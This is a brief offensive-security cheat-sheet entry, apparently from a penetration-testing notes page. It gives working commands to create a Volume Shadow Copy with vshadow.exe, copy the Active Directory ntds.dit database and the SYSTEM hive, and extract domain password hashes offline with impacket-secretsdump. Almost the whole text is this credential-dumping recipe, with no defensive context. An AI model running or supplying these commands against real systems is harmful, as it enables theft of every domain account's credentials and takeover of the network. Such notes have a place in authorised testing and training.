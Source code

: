 # Vshadow
[vshadow.exe](https://learn.microsoft.com/en-us/windows/win32/vss/vshadow-tool-and-sample)
```powershell
vshadow.exe -nw -p C:
# Get Path like:  \GLOBALROOT\Device\HarddiskVolumeShadowCopy2

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
```
Transfer to Local Kali AND Extract it.
```bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```